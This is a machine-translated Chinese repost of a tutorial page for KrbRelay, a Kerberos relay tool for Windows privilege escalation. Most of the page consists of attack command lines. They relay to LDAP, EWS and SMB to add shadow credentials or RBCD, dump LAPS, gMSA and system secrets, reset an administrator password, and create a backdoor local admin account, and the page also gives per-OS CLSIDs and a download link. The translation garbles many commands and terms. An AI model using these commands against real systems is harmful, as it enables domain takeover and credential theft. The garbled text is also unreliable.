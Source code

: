 # krb relay:Kerberos 中继框架

> 原文：<https://kalilinuxtutorials.com/krbrelay/>

[![](img/44f7409e90c6153e9e59c42b06710e7f.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh6NBgr2UP1pJ7UicvMilzm4KAQV-z_iYnZ_71hDbyp8Oy1svNNhDfWj750qIJWg198zW2el60opwo7hEzW3c2HasuGQCCXm2Qeklrwon87m37yFijBCJ2PPfUXVe-q8r_OODezLGrCbSkI2bCVhpxYQzoUOBzvNt8jxqdR0IkR2_foAVc78N1pDJ18/s728/Kerberos-CD-a%20(1).png)

KrbRelay 应该可以在大多数完全补丁化的 Windows 系统上工作。在实验室环境中使用服务器操作系统可能会有困难，因为防火墙会阻止 OXID 解析器。但是，在现实生活中，这很可能不是问题，CLSIDs 也是如此。

### 支持的协议和功能

一些协议比其他的更完整，公关是受欢迎的。

*   LLMNR
*   LDAP/LDAPS
*   超文本传送协议
    *   EWS
*   SMBv2
*   SMB 上的 RPC
    *   SAMR 女士
    *   SCMR 女士
    *   RPRN 女士
    *   MS-RRP
    *   麻省理工学院 LSAT

### 例子

**LPE
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-clsid 90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8-rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-clsid 90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8-shadow cred
跨会话 LDAP
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-shadow cred
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-shadow cred win 2016 $
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win 2016 $
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-add-group member SRV _ admins domain _ user
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-laps
。\ krb relay . exe-SPN LDAP/dc02 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-SSL-gmsa
。\ krb relay . exe-SPN LDAP/dc02 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-SSL-reset-密码管理员 Password123！
跨会话 HTTP
。\ krb relay . exe-SPN http/exchange . htb . local-endpoint EWS/exchange . asmx-SSL-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-EWS-search beta，test
。\ krb relay . exe-SPN http/exchange . htb . local-endpoint EWS/exchange . asmx-SSL-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1 cb6 c 6877182-EWS-delegate domain _ user @ htb . local
。\ krb relay . exe-SPN http/win 2016 . htb . local-endpoint iisstart.htm-代理-会话 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182
跨会话 SMB
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-console
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1 CB 6 c 6877182-add-privileges(([系统。security . principal . windows identity]::get current())、User.Value)
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-secrets
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 C 6877182-service-add addUser " C:\ windows \ system32 \ cmd . exe/C " " " " C:\ windows \ system32 \ net 用户多维数据集密码 123！/add&C:\ windows \ system32 \ net local group administrator s cube/add " " " "
LLMNR
。\ krb relay . exe-llmnr-SPN ' CIFS/win 2019 . htb . local '-secrets**

`**CheckPort.exe**`是一个 C#工具，可用于发现 OXID 解析器的可用端口。

**C:\ Users \ domain _ user \ Desktop \ KrbRelay \ check port \ bin \ Release \ check port . exe
[*]寻找可用端口..【*】端口:1024 可用**

## CLSIDs

我们需要在一个允许通过网络认证的进程中解组我们的 OBJREF，这可以通过查看`**Impersonation Level**`来验证

*   RPC_C_IMP_LEVEL_DEFAULT #将不起作用
*   RPC_C_IMP_LEVEL_ANONYMOUS #将不起作用
*   RPC_C_IMP_LEVEL_IDENTIFY #适用于 LDAP
*   SMB 需要 RPC_C_IMP_LEVEL_IMPERSONATE #
*   RPC_C_IMP_LEVEL_DELEGATE

当中继到 LDAP 或任何其他启用了签名但没有强制签名的服务时，我们还需要验证流程的`**Authentication Level**`是否设置为 **`RPC_C_AUTHN_LEVEL_CONNECT`。**

在通过网络进行身份验证时，在`**NT Authority\Network service**`下运行的进程将使用系统帐户。

发现小岛屿发展中国家的工具:https://github.com/tyranid/oleviewdotnet

**导入-模块。\ oleviewdotnet . PS D1
Get-com database-set current
$ comdb = Get-current com database
$ clsid =(Get-com class)。clsid
Get-ComProcess-DbgHelpPath ' C:\ Program Files(x86)\ Windows Kits \ 10 \ Debuggers \ x64 \ dbghelp . dll ' | select ProcessId，ExecutablePath，Name，AppId，User，AuthnLevel，ImpLevel**

## Windows 10 1903

**系统中继
0 BAE 55 fc-479 f-45 C2-972 e-e 951 be 72 c0 C1 # RPC _ C _ IMP _ LEVEL _ IDENTIFY
90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
跨会话中继
0289 a7c 5-91bf-4547-81ae-FEC 91 a 89 dec 5 # RPR**

## 服务器 2019

**系统中继
90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
跨会话中继
354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 C 6877182 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
38e 441 FB-3d 16-422 f-8750-B2 dacec 5 cefc #**

## 服务器 2016

**系统中继
90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
跨会话中继
0289 a7c 5-91bf-4547-81ae-FEC 91 a 89 de C5 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
1f 87137d-0e7c-44 D5-8 c73-4 effb 68962 f 2**

## 错误代码

第一次不成功？再试一次，然后检查这些错误代码，如果你要打开一个问题，请粘贴完整的输出。

#### 防火墙阻止 OXID 解析器

**系统。runtime . interop services . com exception(0x 800706 ba):RPC 服务器不可用。(来自 HRESULT 的异常:0x800706BA)**

## 错误的 CLSID

**系统。runtime . interop services . com Exception(0x 80080004):对象的错误路径(来自 HRESULT 的异常:0x80080004 (CO_E_BAD_PATH))**

[**Download**](https://github.com/cube0x0/KrbRelay)